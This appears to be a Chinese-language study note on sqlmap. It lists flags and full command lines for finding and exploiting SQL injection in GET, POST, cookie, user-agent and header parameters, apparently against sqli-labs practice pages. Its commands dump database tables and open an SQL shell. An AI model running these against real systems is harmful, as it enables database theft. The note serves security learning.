 ﻿# sqmap学习笔记

标签（空格分隔）： 未分类

---
学习思路

找注入点
	get 型  需要带参数
	post型  需要带参数
		需要登录的  需要对的账号和密码
	cookie
	user_agent
	referer

利用注入点
	获取库名 
	获取表名  
	获取字段名  
	获取数据


帮助文档
	基本帮助信息
	python sqlmap.py -h
	高级帮助信息
	python sqlmap.py -hh
	显示版本
	python sqlmap.py --version


常用命令
	探测有那些注入漏洞
		python sqlmap.py -u url  

	默认确认： --batch
	清除缓存： --purge
	
	获取库名   --dbs
	获取表名  --tables
	获取字段名   --columns
	获取数据
		指定 拖库：--dump
		全部 拖库：--dump-all
	执行SQL语句  --sql-shell
	
	指定库名  -D  库名
	指定表名  -T  表名
	指定列名  -C  列名
	
	查看当前用户名：  --current-user
	查看当前数据库名：--current-db


	要执行的测试级别(1-5, default 1)：--level      [ 2 cookie 3 ua信息 ]
		1、默认是没有cookie，ua, referer ....测试范围的
		2、直接指定cookie 或 user_agent：
			-p cookie
			-p user-agent


​	

	批量测试多台目标服务器
		使用burp抓包放到一个文件里面 做探测：-l
		从文件加载HTTP请求 做探测：-r


------------------案例------------------------
1、帮助文档
python sqlmap.py -hh

2、探测存在什么类型的sql注入
python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-1/?id=1
python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-1/?id=1
python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-1/?id=1 --batch
python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-1/?id=1 --batch --purge

3、枚举数据
python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-1/?id=1 --batch --dbs
python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-1/?id=1 --batch --current-db
python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-1/?id=1 --batch -D security --tables
python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-1/?id=1 --batch -D security -T users --columns
python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-1/?id=1 --batch -D security -T users --dump 
python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-1/?id=1 --batch -D security -T users --dump --start 1 --stop 2

python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-1/?id=1 --batch  --current-user
python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-1/?id=1 --batch  --sql-shell
q  退出


------------------------------------------------------------

post类型注入：
python sqlmap.py -u http://xxx.xxx.xxx.xxx/sqli/Less-11/ --data="uname=aa&passwd=aa&submit=submit" --batch

cookie类型注入：
python sqlmap.py -u http://xxx.xxx.xxx.xxx/index.php --batch --cookie="security_session_verify=f0e4b8ffab48080e868a86a976c26451; PHPSESSID=rn09ct1bt0d221intqs65vb0b7; User=admin" --level 2
第二种方法：
python sqlmap.py -u http://xxx.xxx.xxx.xxx/index.php --batch --cookie="security_session_verify=f0e4b8ffab48080e868a86a976c26451; PHPSESSID=rn09ct1bt0d221intqs65vb0b7; User=admin" -p cookie 

user-agent注入：
python sqlmap.py -u http://xxx.xxx.xxx.xxx/ --batch -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36" -p user-agent


xff注入
python sqlmap.py -u http://xxx.xxx.xxx.xxx/ --batch -l xff.txt -p x-forwarded-for --dbs

referer注入
python sqlmap.py -u url --batch --data="uname=admin&passwd=admin&submit=Submit" -p refrere
----------------------------
其他参数
使用-r指定目标：
python sqlmap.py -r request.txt --batch
使用-l指定目标：
python sqlmap.py -l request.txt --batch --purge















